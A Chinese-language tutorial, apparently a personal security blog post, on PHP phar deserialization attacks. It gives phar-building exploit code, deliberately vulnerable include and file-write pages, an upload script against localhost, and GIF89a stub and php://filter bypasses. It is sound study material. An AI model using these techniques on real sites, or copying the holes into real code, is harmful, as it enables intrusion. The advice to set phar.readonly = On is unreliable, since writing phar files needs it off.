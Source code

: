 ```yaml
---
title: 浅析phar反序列化
date: 2024-10-22 16:11:27
permalink: /pages/88a8e0/
author: 
  name: Cola
  link: https://the0n3.top
---
```

# 浅析phar反序列化

## 定义

什么是 phar？PHAR（PHP Archive）文件实际上是一种打包格式，用于将多个 PHP 文件和资源打包成一个文件。phar 归档的最佳特征是可以将多个文件组合成一个文件。phar 归档可以像任何其他文件一样由 PHP 在命令行和 Web 服务器上执行。

可以这样认为，phar文件是一个移动U盘，php可以通过`phar://`协议直接访问和执行U盘中的文件，而不需要解压。

可以使用任何 fopen() 相关函数，opendir() 和 mkdir() 相关函数在 phar 归档内读取、更改、创建新文件或目录

## 结构

phar文件本质是一种压缩文件


### stub （phar文件头）

前面xxx内容不限，但必须以`__HALT_COMPILER();`结尾，否则phar扩展无法识别这个phar文件

因为前面的内容不限，在遇到限制文件格式时可以通过stub伪造文件类型上传

```php
xxx<?php xxx; __HALT_COMPILER();?>
```

### manifest （元数据）

在这部分会将序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。

### contents （压缩文件内容）

被压缩文件的内容，可以写入php代码，通过include()及phar协议进行文件包含或者phar协议具体到某个php文件直接执行

### signature （签名）

可选

## 利用

在`php.ini`修改配置，开启`phar.readonly`选项，取消前面的`;`注释

```plaintext
[Phar]
; http://php.net/phar.readonly
phar.readonly = On
```

利用前提

- 存在文件上传/文件读写
- 页面定义了类，且存在文件操作的函数

受影响函数列表[原文地址](https://paper.seebug.org/680/)

![1](https://the0n3.top/medias/stuphar/1.png)

本地简单尝试利用

phar.php生成phar文件

```php
<?php
highlight_file(__FILE__);
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = 'hello,phar';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "<?php phpinfo();?>"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

index.php通过phar协议实现文件包含

```php
<?php
highlight_file(__FILE__);
include$_GET['file'];
```

![3](https://the0n3.top/medias/stuphar/3.png)

文件操作触发的反序列化

通过写文件代替文件上传，使用file_get_contents()函数举例读取文件时触发`phar`反序列化

```php
<?php
highlight_file(__FILE__);
    class test{
    public $a;
    public function __destruct(){
        phpinfo();
    }
}
# 直接写文件代替文件上传
@file_put_contents($_POST['filename'],$_POST['content']);

$file = $_GET['file'];
@file_get_contents($file);
?>
```

生成phar文件

```php
<?php
highlight_file(__FILE__);
    class test {
        public $a;
    }
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new test();
    $o -> a='hacker';
    
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "aaa"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

题目使用file_put_contents()函数写入文件，直接复制`shell.phar`文件内容会失败

需要复制二进制内容，使用python读取、上传

```python
import requests

url = 'http://localhost/stuphar/'
data = {
    'filename':'a.phar',
    'content':open('shell.phar','rb').read(),
}
resp = requests.post(url,data=data)
print(resp.text)
```

上传后，使用phar协议读取phar文件，触发反序列化

![2](https://the0n3.top/medias/stuphar/2.png)

## 扩展名

php通过`stub`文件头识别phar文件，所以可以自由修改文件后缀名绕过

## 文件头绕过

`$phar->setStub("<?php __HALT_COMPILER(); ?>");`，这里`stub`的文件头存在操作空间，添加一些白名单文件头

```php
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
```

## 伪协议绕过

限制`phar://`协议开头时，通过其他协议绕回来

```php
include('php://filter/read=convert.base64-encode/resource=phar://phar.phar/test.txt');
```

参考：

- [浅析phar反序列化](https://baozongwi.xyz/2024/09/05/%E6%B5%85%E6%9E%90phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)
- [phar反序列化](https://blog.foreverwl.top/archives/pharfxlh#heading-2)
- [Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://blog.zsxsoft.com/post/38)
- [通过Phar文件进行的反序列化攻击](https://chenlvtang.top/2021/03/20/%E9%80%9A%E8%BF%87Phar%E6%96%87%E4%BB%B6%E8%BF%9B%E8%A1%8C%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB/)